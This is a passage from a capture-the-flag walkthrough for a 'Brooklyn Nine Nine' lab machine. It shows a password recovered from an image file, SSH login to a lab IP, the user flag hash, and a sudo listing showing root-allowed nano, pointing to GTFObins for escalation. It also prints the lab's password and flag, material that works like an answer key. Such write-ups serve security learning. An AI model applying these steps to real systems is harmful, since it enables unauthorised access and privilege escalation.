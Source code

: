 and we have it :

```
└─$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!

```

and it uses it for us , now we can access Holt [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) .

## First Access
### SSH

```
└─$ ssh holt@10.10.32.25             
holt@10.10.32.25's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```

## Privilege Escalation

For [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we check and we can run [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) as root :

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano

```

### GTFObins

We go to [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) and we search for SUDO - nano :

![7c5dc059942a76ca3c419adce424a8bc.png](../../../2%20-%20Resources/Others/Flameshots/7c5dc059942a76ca3c419adce424a8bc.png)
